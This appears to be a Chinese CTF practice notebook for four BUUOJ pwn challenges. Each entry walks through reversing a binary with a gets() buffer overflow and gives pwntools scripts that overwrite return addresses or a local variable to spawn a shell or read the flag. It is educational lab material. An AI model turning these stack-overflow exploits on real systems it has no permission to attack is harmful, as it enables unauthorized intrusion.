



# PWN做题笔记

## 练习记录

### [PWN-test_your_nc](https://buuoj.cn/challenges#test_your_nc)

下载程序文件，使用 `file` 命令查看，发现这是个 Debian 64 位程序

使用 IDA 64 进行静态分析，找到主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  system("/bin/sh");
  return 0;
}
```

emmmmmmmm...

显然直接 `nc` 到服务器里即可获得 flag

```shell
┌──(hervey㉿Hervey)-[~]
└─$ nc node5.buuoj.cn 29833
ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
media
mnt
opt
proc
pwn
root
run
sbin
srv
sys
tmp
usr
var
cat flag
flag{<flag here>}
```

### [PWN-rip](https://buuoj.cn/challenges#rip)

下载后获得文件 pwn1

先使用 `file` 命令查看文件类型，发现是一个 ELF 64 位程序

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ file pwn1
pwn1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=1c72ddcad651c7f35bb655e0ddda5ecbf8d31999, not stripped
```

接着使用 `checksec` 命令识别安全属性

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ checksec --file=pwn1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   64 Symbols        No    0               1               pwn1
```

可以发现无栈保护

使用 IDA 64 进行逆向

`main()` 函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
```

同时我们还能找到一个 `fun` 函数

```c
int fun()
{
  return system("/bin/sh");
}
```

所以我们的目标应该是利用 `gets()` 这个危险函数的缓冲区溢出漏洞，将 `s` 变量数据溢出到覆盖返回地址，实现跳转到执行 `system("/bin/sh")` 进而去获得 flag

使用 IDA 64 可以轻松地获取 `s` 的地址为 `[rbp-Fh]`

点击 `fun()` 在窗口左下角可以获得该函数位于 `0x401186`


当然，也可以直接从汇编界面找到该函数的地址


由此我们可以写出脚本

```python
from pwn import *
p = remote("<IP Address>", <Port>)
payload = b'A' * 0xF + p64(0x401186)
p.sendline(payload)
p.interactive()
```

运行该脚本，进入容器终端

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ python3 ./sol.py
[+] Opening connection to <IP Address> on port <Port>: Done
[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
media
mnt
opt
proc
pwn
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
flag{<flag here>}
```

进而获得 flag

### [PWN-warmup_csaw_2016](https://buuoj.cn/challenges#warmup_csaw_2016)

下载后获得文件 warmup_csaw_2016

先使用 `file` 命令查看文件类型，发现是一个 ELF 64 位程序

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ file ./warmup_csaw_2016
./warmup_csaw_2016: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=7b7d75c51503566eb1203781298d9f0355a66bd3, stripped
```

接着使用 `checksec` 命令识别安全属性

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ checksec --file=warmup_csaw_2016
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No Symbols        No    0               2               warmup_csaw_2016
```

可以发现无栈保护

使用 IDA 64 进行逆向

`main()` 函数

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets(v5);
}
```

发现有一个 `gets()` 函数，推测应该用栈溢出的方法解决此问题

接下来查看 `v5` 的位置，在 IDA 中双击进入

```asm
-0000000000000042 db ? ; undefined
-0000000000000041 db ? ; undefined
-0000000000000040 var_40 db 64 dup(?)
+0000000000000000  s db 8 dup(?)
+0000000000000008  r db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

可以知道离返回地址的距离为 `0x40 + 0x8`

同时我们还能找到一个 `sub_40060D` 函数

```c
int sub_40060D()
{
  return system("cat flag.txt");
}
```

这个函数的地址在 `0x40060D`

通过调用这个函数就可以获取 flag

由此我们可以写出脚本

```python
from pwn import *
p = remote("<IP Address>", <Port>)
payload = b'A' * (0x40 + 0x8) + p64(0x40060D)
p.sendline(payload)
p.interactive()
```

运行该脚本，获取 flag

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ python3 ./sol.py
[+] Opening connection to <IP Address> on port <Port>: Done
[*] Switching to interactive mode
-Warm Up-
WOW:0x40060d
>flag{<flag here>}
[*] Got EOF while reading in interactive
$
```

进而获得 flag

### [PWN-ciscn_2019_n_1](https://buuoj.cn/challenges#ciscn_2019_n_1)

下载后获得文件 ciscn_2019_n_1

先使用 `file` 命令查看文件类型，发现是一个 ELF 64 位程序

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ file ./ciscn_2019_n_1
./ciscn_2019_n_1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8a733f5404b1e2c65e1758c7d92821eb8490f7c5, not stripped
```

接着使用 `checksec` 命令识别安全属性

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ checksec --file=ciscn_2019_n_1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   73 Symbols        No    0               1               ciscn_2019_n_1
```

发现没有开启栈保护

使用 IDA 64 打开查看源程序，找到 `main` 函数中的 `func()`

```c
int func()
{
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    return system("cat /flag");
  else
    return puts("Its value should be 11.28125");
}
```

发现这里有个危险函数 `gets()`

#### 解法一

跟前面的题目一样，尝试直接跳过判断，通过栈溢出让程序直接跳转到 `system("cat /flag");` 语句

双击进入 `v1` 可以得到变量 `v1` 的大小为 `0x30` ，偏移长度为 `0x8`



进入汇编页面可以获得 `system("cat /flag")` 的地址为 `0x4006BE`



编写以下脚本获取 flag

```python
from pwn import *
p = remote("<IP Address>", <Port>)
payload = b'A' * (0x30 + 0x8) + p64(0x4006BE)
p.sendline(payload)
p.interactive()
```

运行该脚本，获取 flag

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ python3 ./sol.py
[+] Opening connection to node5.buuoj.cn on port 28081: Done
[*] Switching to interactive mode
Let's guess the number.
Its value should be 11.28125
flag{<flag here>}
[*] Got EOF while reading in interactive
$
```

#### 解法二

尝试对变量 `v2` 的地址进行覆盖，使其满足条件

通过 IDA 64 的注释可以得知变量 `v1` 和 `v2` 之间的偏移为 `0x30-0x04`



我们需要将 `v2` 的值修改为 `11.28125` ，对应的十六进制值为 `41348000h`


于是我们可以构造出如下脚本

```python
from pwn import *
p = remote("<IP Address>", <Port>)
payload = b'A' * (0x30 - 0x4) + p64(0x41348000)
p.sendline(payload)
p.interactive()
```

运行该脚本，获取 flag

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ python3 ./sol.py
[+] Opening connection to <IP Address> on port <Port>: Done
[*] Switching to interactive mode
Let's guess the number.
flag{<flag here>}
[*] Got EOF while reading in interactive
$
```
